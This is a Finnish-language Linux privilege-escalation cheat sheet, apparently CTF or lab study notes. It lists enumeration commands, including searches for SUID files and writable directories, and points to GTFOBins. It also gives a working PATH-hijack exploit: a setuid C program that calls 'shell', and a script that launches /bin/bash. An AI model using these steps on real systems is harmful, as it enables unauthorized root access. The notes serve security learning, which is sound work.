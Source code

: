 ## Privilege Escalation

Käyttöoikeuksien nostaminen tapahtuu, kun ensimmäinen jalansija ja alhaisen tason käyttäjätunnus on saatu haltuun.
Tavoite on saada lisää oikeuksia ja päästä mahdollisesti liikkumaan kohdejärjetelmän osiin, joihin ensimmäisellä kaapatulla käyttäjätunnuksella ei välttämättä ole oikeuksia.
Ideaalitavoite on saada root- (Linux) tai Administrator- (Windows) tason oikeudet.

Käyttöoikeuksia voidaan nostaa monella tavalla, riippuen kohdejärjestelmästä.
Usein käyttöoikeuksien nostamisen mahdollistaa väärin konfiguroidut käyttöoikeudet tai haavoittuvat järjestelmän osat.

**Kohdejärjestelmän kartoitus**
```bash
hostname ## Voi löytyä tietoa järjestelmän käyttötarkoituksesta
uname -a ## Kernel -versio
cat /etc/issue ## Voi löytyä tietoa käyttöjärjestelmästä 
cat /proc/version ## Tietoa prosesseista, kernelistä, ja esim. onko compiler (esim. gcc) asennettu
ps ## Process Status, pyörivät prosessit. "ps -A" = kaikki, "ps axjf" = prosessipuu
env ## Ympäristömuuttujat, esim. PATH
sudo -l ## Kaikki komennot, jota käyttäjä voi ajaa sudona
ls -la ## Normaali ls ei näytä piilotettuja tiedostoja
id ## Käyttäjän tiedot ja ryhmä
ifconfig ## Verkkoliikennetietoja
netstat ## Muodostetut yhteydet, "netstat -a" = Kaikki, "netstat -l" = Yhteydettä odottavat. Voi lisätä t (TCP) tai u (UDP), esim. "netstat -at"
```
Find -komentoja (lisää loppuun 2>/dev/null, siistii virheviestit pois)
```bash
find / -name flag1.txt ## Etsi tiedosto flag1.txt
find / -type d -name config ## Etsi kansio config
find / -type f -perm 0777 ## Luku, kirjoitus, suorita -tiedostot kaikille käyttäjille
find / -perm a=x ##  Suoritettavat tiedostot
find / -perm -u=s -type f ## SUID -bittiset tiedostot 
```

**Kernel-haavoittuvuudet**

https://www.linuxkernelcves.com/cves

**Sudo-haavoittuvuudet**
Listaa käyttäjän sudo-oikeudella ajettavat ohjelmat:
```bash
sudo -l
```
Jos löytyy jotain, täältä hyväksikäyttötavat:
https://gtfobins.github.io/

**SUID-haavoittuvuudet**
SUID -bitti suorittaa ohjelman aina ohjelman omistajan oikeuksilla, riippumatta ajajasta.
Ohjelmat, joissa SUID-bitti asetettu:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Jos löytyy mielenkiintoisen näköisiä, tarkistetaan GTFObinsistä.

**PATH -haavoittuvuudet**
```bash
echo $PATH
```
Kansiot, joihin kirjoitusoikeus:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u
```
Jos PATH-muuttujassa on kansio, johon käyttäjä pääsee kirjoittamaan, voidaan ko. kansiosta ajaa ohjelma root-oikeuksilla.

Kansion lisääminen PATH-muuttujaan:
```bash
export PATH=/tmp:$PATH
```
Alla oleva ohjelma "suid_exploit" etsii PATH-kansioista "shell" -nimistä ohjelmaa:

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("shell");
}
```
Compile ja aseta SUID-bitti
```bash
gcc suid_exploit.c -o suid_exploit -w
chmod u+s suid_exploit
```
Shell-scripti lisätään PATH-muuttujasta löytyvään kansioon, johon käyttäjällä on kirjoitusoikeudet:
```bash
echo "/bin/bash" > shell
chmod 777 shell
```
Lopuksi ajetaan suid_exploit:
```bash
./suid_exploit
```
